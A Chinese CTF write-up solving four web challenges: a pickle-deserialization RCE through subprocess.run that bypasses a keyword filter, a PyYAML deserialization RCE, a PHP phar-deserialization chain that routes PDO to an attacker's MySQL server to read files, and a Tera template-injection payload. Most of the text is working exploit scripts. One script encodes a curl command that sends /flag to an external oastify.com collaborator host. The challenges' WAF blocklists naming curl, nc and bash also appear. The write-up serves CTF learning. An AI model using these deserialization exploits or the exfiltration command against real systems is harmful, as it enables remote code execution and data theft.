# const_python

自认为搭建了一个完美的web应用，不会有问题，很自信地在src存放了源码，应该不会有人能拿到/flag的内容。

访问/src拿到源码

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return
```

源码中发现还有东西

```python
@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
```

一眼看出来是pickle反序列化进行rce，但是这里过滤了这么多

```python
for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"
```

这时候该如何绕过呢？

看wp然后搜了一下subprocess模块，发现这是os.system的代替品，刚好也可以拿来绕过了



语法

```
subprocess.run(args, *, stdin=None, input=None, stdout=None, stderr=None, capture_output=False, shell=False, cwd=None, timeout=None, check=False, encoding=None, errors=None, text=None, env=None, universal_newlines=None, **other_popen_kwargs)
```

那我们用reduce方法去打pickle反序列化，不过这里的话是无回显的，这里需要注意

```python
import pickle
import subprocess
import base64
import requests

url = "http://a7bad090-1104-44ff-8d73-26fec859fa88.node5.buuoj.cn:81/ppicklee"

class Test:
    def __reduce__(self):
        # 使用 subprocess.run 执行 "dir" 命令
        return (subprocess.run, (["bash", "-c", "ls / > app.py"],), {"shell": True})

test = Test()
pickle_data = pickle.dumps(test)

pickle_data_base64 = base64.b64encode(pickle_data).decode('utf-8')

print(pickle_data)
print(pickle_data_base64)

data = {
    "data" : pickle_data_base64,
}

r = requests.post(url, data=data)
print(r.text)

```

然后我们访问/src



然后cat一下flag就行

# yaml_matser

看一下附件

```python
import os
import re
import yaml
from flask import Flask, request, jsonify, render_template


app = Flask(__name__, template_folder='templates')

UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False


file_pattern = re.compile(r'.*\.yaml$')


def is_yaml_file(filename):
    return bool(file_pattern.match(filename))

@app.route('/')
def index():
    return '''
    Welcome to DASCTF X 0psu3
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/Yam1">Yam1</a>
    '''

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        try:
            uploaded_file = request.files['file']

            if uploaded_file and is_yaml_file(uploaded_file.filename):
                file_path = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
                uploaded_file.save(file_path)

                return jsonify({"message": "uploaded successfully"}), 200
            else:
                return jsonify({"error": "Just YAML file"}), 400

        except Exception as e:
            return jsonify({"error": str(e)}), 500


    return render_template('upload.html')

@app.route('/Yam1', methods=['GET', 'POST'])
def Yam1():
    filename = request.args.get('filename','')
    if filename:
        with open(f'uploads/{filename}.yaml', 'rb') as f:
            file_content = f.read()
        if not waf(file_content):
            test = yaml.load(file_content)
            print(test)
    return 'welcome'


if __name__ == '__main__':
    app.run()


```

先理解一下源码，其实就是需要我们上传一个yaml文件去执行RCE，先看看过滤了什么

```python
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False
```

其实过滤的还是蛮多的，很多命令执行函数都被过滤掉了

之前我没有接触过yaml反序列化，做之前还得去学一下，后面发现好像跟pickle没啥太大的区别

这里绕过的话直接用编码去绕过

需要上传一个yml文件，然后通过Yam1函数中的load去实现反序列化进行rce，直接写脚本一把梭

注意这里是无回显的，还得打curl外带或者反弹shell

```python
import requests

exp = '__import__("os").system("curl -d @/flag havtes3pel3xmey9c56cvzw1isojcc01.oastify.com")'

#print(f"exec(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))")

payload = b"""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: \"exec(bytes([[j][0]for(i)in[range(86)][0]for(j)in[range(256)][0]if[i]in[[0]]and[j]in[[95]]or[i]in[[1]]and[j]in[[95]]or[i]in[[2]]and[j]in[[105]]or[i]in[[3]]and[j]in[[109]]or[i]in[[4]]and[j]in[[112]]or[i]in[[5]]and[j]in[[111]]or[i]in[[6]]and[j]in[[114]]or[i]in[[7]]and[j]in[[116]]or[i]in[[8]]and[j]in[[95]]or[i]in[[9]]and[j]in[[95]]or[i]in[[10]]and[j]in[[40]]or[i]in[[11]]and[j]in[[34]]or[i]in[[12]]and[j]in[[111]]or[i]in[[13]]and[j]in[[115]]or[i]in[[14]]and[j]in[[34]]or[i]in[[15]]and[j]in[[41]]or[i]in[[16]]and[j]in[[46]]or[i]in[[17]]and[j]in[[115]]or[i]in[[18]]and[j]in[[121]]or[i]in[[19]]and[j]in[[115]]or[i]in[[20]]and[j]in[[116]]or[i]in[[21]]and[j]in[[101]]or[i]in[[22]]and[j]in[[109]]or[i]in[[23]]and[j]in[[40]]or[i]in[[24]]and[j]in[[34]]or[i]in[[25]]and[j]in[[99]]or[i]in[[26]]and[j]in[[117]]or[i]in[[27]]and[j]in[[114]]or[i]in[[28]]and[j]in[[108]]or[i]in[[29]]and[j]in[[32]]or[i]in[[30]]and[j]in[[45]]or[i]in[[31]]and[j]in[[100]]or[i]in[[32]]and[j]in[[32]]or[i]in[[33]]and[j]in[[64]]or[i]in[[34]]and[j]in[[47]]or[i]in[[35]]and[j]in[[102]]or[i]in[[36]]and[j]in[[108]]or[i]in[[37]]and[j]in[[97]]or[i]in[[38]]and[j]in[[103]]or[i]in[[39]]and[j]in[[32]]or[i]in[[40]]and[j]in[[104]]or[i]in[[41]]and[j]in[[97]]or[i]in[[42]]and[j]in[[118]]or[i]in[[43]]and[j]in[[116]]or[i]in[[44]]and[j]in[[101]]or[i]in[[45]]and[j]in[[115]]or[i]in[[46]]and[j]in[[51]]or[i]in[[47]]and[j]in[[112]]or[i]in[[48]]and[j]in[[101]]or[i]in[[49]]and[j]in[[108]]or[i]in[[50]]and[j]in[[51]]or[i]in[[51]]and[j]in[[120]]or[i]in[[52]]and[j]in[[109]]or[i]in[[53]]and[j]in[[101]]or[i]in[[54]]and[j]in[[121]]or[i]in[[55]]and[j]in[[57]]or[i]in[[56]]and[j]in[[99]]or[i]in[[57]]and[j]in[[53]]or[i]in[[58]]and[j]in[[54]]or[i]in[[59]]and[j]in[[99]]or[i]in[[60]]and[j]in[[118]]or[i]in[[61]]and[j]in[[122]]or[i]in[[62]]and[j]in[[119]]or[i]in[[63]]and[j]in[[49]]or[i]in[[64]]and[j]in[[105]]or[i]in[[65]]and[j]in[[115]]or[i]in[[66]]and[j]in[[111]]or[i]in[[67]]and[j]in[[106]]or[i]in[[68]]and[j]in[[99]]or[i]in[[69]]and[j]in[[99]]or[i]in[[70]]and[j]in[[48]]or[i]in[[71]]and[j]in[[49]]or[i]in[[72]]and[j]in[[46]]or[i]in[[73]]and[j]in[[111]]or[i]in[[74]]and[j]in[[97]]or[i]in[[75]]and[j]in[[115]]or[i]in[[76]]and[j]in[[116]]or[i]in[[77]]and[j]in[[105]]or[i]in[[78]]and[j]in[[102]]or[i]in[[79]]and[j]in[[121]]or[i]in[[80]]and[j]in[[46]]or[i]in[[81]]and[j]in[[99]]or[i]in[[82]]and[j]in[[111]]or[i]in[[83]]and[j]in[[109]]or[i]in[[84]]and[j]in[[34]]or[i]in[[85]]and[j]in[[41]]]))\""""
url = "http://node5.buuoj.cn:26378/"

r1=requests.post(url + "/upload", files={'file': ('poc1.yaml', payload, 'application/octet-stream')})
print(r1.text)

r2 = requests.get(url + "/Yam1?filename=poc1")
print(r2.text)
```


# strange_php

附件有很多东西，可以放seay里面去审计一下



然后我们看一下源码

在登录和注册页面的源码中对sql语句都是进行了一个预处理操作，估计sql打不通，我们注册登录进去看看

welcome.php的源码

```php
//welcome.php
<?php
header('Content-Type: text/html; charset=utf-8');
session_start();
require_once 'PDO_connect.php';
require_once 'User.php';
require_once  'UserMessage.php';

if (!isset($_SESSION['user_id'])) {
   header("Location: index.html");
   exit;
}
$Message = new UserMessage();


$userMessage = new UserMessage();
$database = new PDO_connect();
$database->init();
$db = $database->get_connection();


if (isset($_POST['action'])) {
    $action = $_POST['action'];
    echo $action;
    switch ($action) {
        case 'message':
            echo "write messageing";
            $decodedMessage = base64_decode($_POST['encodedMessage']);
            
            $msg = $userMessage->writeMessage($decodedMessage);
            if($msg===false){
                echo "写入失败";
                break;
            }
            $filePath = $userMessage->get_filePath();
            $_SESSION['message_path'] = $filePath;
            echo "留言已写入: ". $userMessage->get_filePath();
            break;
            case 'editMessage':
                $decodedEditMessage = base64_decode($_POST['encodedEditMessage']);
                if(!isset($_SESSION['message_path'])){
                    break;
                }
                $msg = $userMessage->editMessage($_SESSION['message_path'],$decodedEditMessage);
                if($msg){
                    echo "留言已成功更改";
                }
                else{
                    echo "操作失败，请重新尝试";
                }
                break;
        case 'delete':
            $message = $_POST['message_path']?$_POST['message_path']:$_SESSION['message_path'];
            $msg = $userMessage->deleteMessage($message);
            if($msg){
                echo "留言已成功删除";
            }
            else{
                echo "操作失败，请重新尝试";
            }
            break;
            case 'clean':
                exec('rm log/*');
                exec('rm txt/*');
    }


}


?>
```

找找可控的参数吧

先看写留言部分



这里的话有一个writeMessage方法，并且$decodedMessage可控，我们跟进这个方法看一下

```php
//方法writeMessage
public function writeMessage($message) {


    // 写入留言到文件中
    $a= file_put_contents($this->filePath, $message);
    if ($a === false) {
        return false;
    }
    return true;
}
	|
	|
//参数filePath
public function __construct() {
        $this->filePath = $this->generateFileName();
    }
	|
    |
//方法generateFileName
public function generateFileName() {
        $timestamp = microtime(true);
        $hash = md5($timestamp);
        $fileName = "./txt/".$hash . ".txt";
        return $fileName;
    }
```

这里的话文件路径是不可控的，但是这个文件内容最终是会被base64解码的，但生成的文件是txt文件，打xss貌似行不通

编辑留言部分也一样没得可用的点，然后看删除留言部分



这个message_path是可控的，我们跟进deleteMessage方法看一下

```php
//deleteMessage
public function deleteMessage($path) {
    $path = $path.".txt";
    // 删除留言文件
    if (file_exists($path)) {
        $msg = unlink($path);
        if ($msg === false) {
            return false;
        }
        return true;
    }
    return false;
}
```

unlink函数，估计是可以打phar反序列化的，并且message_path可控吗，那该怎么打呢？找找危险函数

```php
//__set()方法
public function __set($name, $value)
{
    $this->$name = $value;
       $a =  file_get_contents($this->filePath)."</br>";
    file_put_contents("/var/www/html/log/".md5($this->filePath).".txt", $a);

}
```

这里的话有一个file_get_contents函数，看看能不能实现任意文件读取，但这里的前提是filePath可控

怎么触发`__set()`呢？

将数据写入不可访问或者不存在的属性，即设置一个类的成员变量，也就是说赋值时触发这个魔术方法

但是如果是在UserMessage类的话显然不可能，我们看PDO_connect类



到这里我就没找到触发的方法，然后看大佬的wp写的是

https://www.cnblogs.com/gxngxngxn/p/18620905



一开始没看明白，后面问了师傅才问明白

`PDO::ATTR_DEFAULT_FETCH_MODE=262152`的作用是把sql查询的结果封装成一个对象，而且sql注入第一列的结果是对象的名字

然后入口是在`User.php::log()`，这里可以调用到pdo中的get_connection，这里就是我们链子的入口



但是这里没有文件上传的点，所以关键点在于我们写留言的地方，我们需要将phar文件的内容编码然后传入，去生成txt文件

然后我们写链子

```php
<?php

class User{
    private $conn;
    private $table = 'users';

    public $id;
    public $username="UserMessage";
    private $password="aaaa";
    public $created_at;

    public function __construct() {
        $this->conn = new PDO_connect();
    }
}
class PDO_connect{
    private $pdo;
    public $con_options = array(
        "dsn"=>"mysql:host=124.223.25.186:3306;dbname=users;charset=utf8",
        'host'=>'124.223.25.186',
        'port'=>'3306',
        'user'=>'joker',
        'password'=>'joker',
        'charset'=>'utf8',
        'options'=>array(PDO::ATTR_DEFAULT_FETCH_MODE=>262152,
            PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION)
    );
    public $smt;

}

$a = new User();
$phar = new phar('test.phar');//后缀名必须为phar0
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($a);//自定义的meta-data存入manifest
$phar->addFromString("flag.txt","flag");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

$file = file_get_contents('test.phar');

echo urlencode(base64_encode($file));
?>
//PD9waHAgX19IQUxUX0NPTVBJTEVSKCk7ID8%2BDQokAgAAAQAAABEAAAABAAAAAADuAQAATzo0OiJVc2VyIjo2OntzOjEwOiIAVXNlcgBjb25uIjtPOjExOiJQRE9fY29ubmVjdCI6Mzp7czoxNjoiAFBET19jb25uZWN0AHBkbyI7TjtzOjExOiJjb25fb3B0aW9ucyI7YTo3OntzOjM6ImRzbiI7czo1NjoibXlzcWw6aG9zdD0xMjQuMjIzLjI1LjE4NjozMzA2O2RibmFtZT11c2VycztjaGFyc2V0PXV0ZjgiO3M6NDoiaG9zdCI7czoxNDoiMTI0LjIyMy4yNS4xODYiO3M6NDoicG9ydCI7czo0OiIzMzA2IjtzOjQ6InVzZXIiO3M6NToiam9rZXIiO3M6ODoicGFzc3dvcmQiO3M6NToiam9rZXIiO3M6NzoiY2hhcnNldCI7czo0OiJ1dGY4IjtzOjc6Im9wdGlvbnMiO2E6Mjp7aToxOTtpOjI2MjE1MjtpOjM7aToyO319czozOiJzbXQiO047fXM6MTE6IgBVc2VyAHRhYmxlIjtzOjU6InVzZXJzIjtzOjI6ImlkIjtOO3M6ODoidXNlcm5hbWUiO3M6MTE6IlVzZXJNZXNzYWdlIjtzOjE0OiIAVXNlcgBwYXNzd29yZCI7czo0OiJhYWFhIjtzOjEwOiJjcmVhdGVkX2F0IjtOO30IAAAAZmxhZy50eHQEAAAAGOwhaAQAAACa6%2FTRtgEAAAAAAABmbGFnbGdaQpI%2Bq5h6NLLztLlFIp8ZeRgCAAAAR0JNQg%3D%3D
```



然后我们需要在我们的vps中新建用户joker，并且创建一个users数据库，并需要设置一个filePath列

mysql命令行新建用户

```
CREATE USER 'joker'@'%' IDENTIFIED BY 'joker';
GRANT ALL PRIVILEGES ON users.* TO 'joker'@'%';
FLUSH PRIVILEGES;
```

然后我们用phpmyadmin可视化控制数据库，这样更好操作



因为在我们的payload中如果出现phar反序列化的话，会尝试连接我们的数据库，那么就会通过我们设置的filePath去进行任意文件读取



然后删除后触发phar，访问log/0bc7be346d4df269543565b6b7cd231a.txt拿到flag

# 西湖论剑邀请函获取器

其实能测出来是ssti，但是并不知道是什么框架的，一直以为是flask框架的，测了好久



这里可以看到是存在ssti的，但是并不是我学过的twig，flask的


以为是过滤了，但是一直没绕过去，看了提示知道是RUST的



然后rust下tera框架的注入，但是只写了如何读取环境变量

payload

```
{{ get_env(name="FLAG") }}
```
